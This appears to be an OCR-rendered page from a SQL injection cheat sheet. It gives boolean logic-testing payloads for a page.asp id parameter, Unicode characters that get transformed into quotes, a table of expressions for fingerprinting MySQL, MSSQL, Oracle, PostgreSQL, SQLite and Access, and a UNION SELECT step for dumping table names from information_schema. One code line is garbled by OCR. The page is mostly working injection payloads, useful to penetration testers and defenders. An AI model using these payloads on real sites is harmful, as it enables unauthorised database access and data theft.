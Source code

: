 Logic Testing

```
page.asp?id=1 or 1=1 -- true
page.asp?id=1' or 1=1 -- true
page.asp?id=1" or 1=1 -- true
page.asp?id=1 and 1=2 -- false
```

Weird characters

```
Unicode character U+02BA MODIFIER LETTER DOUBLE PRIME (encoded as %CA%BA) was
transformed into U+0022 QUOTATION MARK (")
Unicode character U+02B9 MODIFIER LETTER PRIME (encoded as %CA%B9) was
transformed into U+0027 APOSTROPHE (')
```

### **DBMS Identification** ###

```
["conv('a',16,2)=conv('a',16,2)"                   ,"MYSQL"],
["connection_id()=connection_id()"                 ,"MYSQL"],
["crc32('MySQL')=crc32('MySQL')"                   ,"MYSQL"],
["BINARY_CHECKSUM(123)=BINARY_CHECKSUM(123)"       ,"MSSQL"],
["@@CONNECTIONS>0"                                 ,"MSSQL"],
["@@CONNECTIONS=@@CONNECTIONS"                     ,"MSSQL"],
["@@CPU_BUSY=@@CPU_BUSY"                           ,"MSSQL"],
["USER_ID(1)=USER_ID(1)"                           ,"MSSQL"],
["ROWNUM=ROWNUM"                                   ,"ORACLE"],
["RAWTOHEX('AB')=RAWTOHEX('AB')"                   ,"ORACLE"],
["LNNVL(0=123)"                                    ,"ORACLE"],
["5::int=5"                                        ,"POSTGRESQL"],
["5::integer=5"                                    ,"POSTGRESQL"],
["pg_client_encoding()=pg_client_encoding()"       ,"POSTGRESQL"],
["get_current_ts_config()=get_current_ts_config()" ,"POSTGRESQL"],
["quote_literal(42.5)=quote_literal(42.5)"         ,"POSTGRESQL"],
["current_database()=current_database()"           ,"POSTGRESQL"],
["sqlite_version()=sqlite_version()"               ,"SQLITE"],
["last_insert_rowid()>1"                           ,"SQLITE"],
["last_insert_rowid()=last_insert_rowid()"         ,"SQLITE"],
["val(cvar(1))=1"                                  ,"MSACCESS"],
["IIF(ATN(2)>0,1,0) BETWEEN 2 AND 0"               ,"MSACCESS"],
["cdbl(1)=cdbl(1)"                                 ,"MSACCESS"],
["1337=1337",   "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
["'i'='i'",     "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
```

### **Dumping the Database (Manual)** ###

* Extract the table names

`union all select table_name from information`_`_`_`schema.tables`

* **group\_concat()** can be used to extract all the data at once.
